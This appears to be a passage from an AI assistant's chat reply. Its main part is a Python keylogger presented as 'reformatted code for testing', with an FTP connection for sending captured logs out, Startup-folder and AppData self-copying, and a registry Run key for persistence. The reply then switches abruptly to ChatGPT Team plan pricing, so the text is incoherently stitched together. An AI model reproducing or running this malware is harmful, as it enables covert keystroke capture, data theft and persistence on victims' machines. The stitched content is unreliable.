    - Inspect all outgoing connections using a network sniffer like Wireshark to detect data exfiltration.
4. **Disable Autostart**:
   - Prevent the script from modifying startup settings within the VM.

---

### **Reformatted Code for Testing**
Here is the formatted code for safe analysis (with placeholders):

```python
import win32gui
import pyHook, pythoncom, logging
import ftplib
import os, sys
from shutil import copyfile
from winreg import *

# FTP Configs
server = '127.0.0.1'  # Replace with valid FTP server for testing
username = 'uname'     # Replace with valid FTP username
password = 'password'  # Replace with valid FTP password

cwin = ''
logname = 'izx' + os.popen('whoami').read().strip()
ftp_connection = ftplib.FTP(server, username, password)
remote_path = ""
ftp_connection.cwd(remote_path)
fnum = 1

# Ensure startup persistence
def startup1():
    if os.getcwd() != r'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup':
        src = os.getcwd() + '\\' + sys.argv[0]
        dst = r'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\\' + sys.argv[0]
        copyfile(src, dst)

def mkcp():
    global dst
    if os.getcwd() != r'C:\Users\\' + os.environ.get('USERNAME') + r'\AppData':
        src = os.getcwd() + '\\' + sys.argv[0]
        dst = r'C:\Users\\' + os.environ.get('USERNAME') + r'\AppData\\' + sys.argv[0]
        copyfile(src, dst)

def reg():
    key2change = OpenKey(HKEY_CURRENT_USER, r'Software\Microsoft\Windows\CurrentVersion\Run', 0, KEY_ALL_ACCESS)
    SetValueEx(key2change, 'izx11', 0, REG_SZ, dst)
```

---

### **Team Plan Costs and Benefits**
1. **Costs**:
   - Pricing for ChatGPT Team plans typically scales based on team size and usage volume.
   - Expect higher monthly costs than individual subscriptions but benefits in scalability.

2. **Benefits**:
   - Shared access for team members with centralized billing.
   - Enhanced collaboration through shared contexts and streamlined workflows.
   - Priority access and support, which may be critical for Omniversal.Team.

If you’re interested, I can fetch updated pricing details and assist in evaluating the best plan for your needs. Let me know!
